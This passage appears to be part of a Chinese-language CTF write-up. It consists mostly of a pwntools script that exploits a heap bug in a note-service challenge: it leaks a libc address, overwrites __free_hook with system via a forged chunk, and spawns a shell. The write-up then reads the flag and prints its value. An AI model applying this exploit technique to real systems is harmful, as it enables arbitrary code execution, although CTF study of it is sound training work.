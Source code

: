 ```edit_data(0, 0x408, b'a'*0x408)``` -> 改成 malloc 0x408 bytes 時會被放入 Tcache 
    r.sendlineafter(b'size\n> ', str(size).encode())
    r.sendline(data)

def del_note(index):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'index\n> ', str(index).encode())

add_note(1, b'A'*8, b'1'*8)
edit_data(1, 0x418, b'a'*0x418)

add_note(2, b'B'*8, b'2'*8)
edit_data(2, 0x18, b'b'*0x18)

add_note(3, b'C'*8, b'3'*8)
del_note(1)
```
```python
r.sendlineafter(b'> ', b'4')
r.recvuntil(b'data: ')
main_arena_96 = u64(r.recv(6).ljust(8, b'\x00'))
#print(hex(main_arena_96))
free_hook = main_arena_96 + 0x2268
#print(hex(free_hook))
system = main_arena_96 - 0x19a950
#print(hex(system))
#gdb.attach(r)

data = b'/bin/sh\x00'.ljust(0x10, b'B')
fake_chunk = flat(
    0, 0x21,
    b'C'*0x10,
    b'C'*0x10, # add more 0x10 bytes for password
    free_hook,
)

edit_data(2, 0x48, data + fake_chunk) # send more 0x10 bytes for password
edit_data(3, 0x8, p64(system))
del_note(2)
r.interactive()
```
![](assets/3-1.png)
下 ```cat /home/chal/flag``` 指令
成功得出 flag2 為 ```FLAG{crocodile_9d7d8f69be2c2ab84721384d5bda877f}```

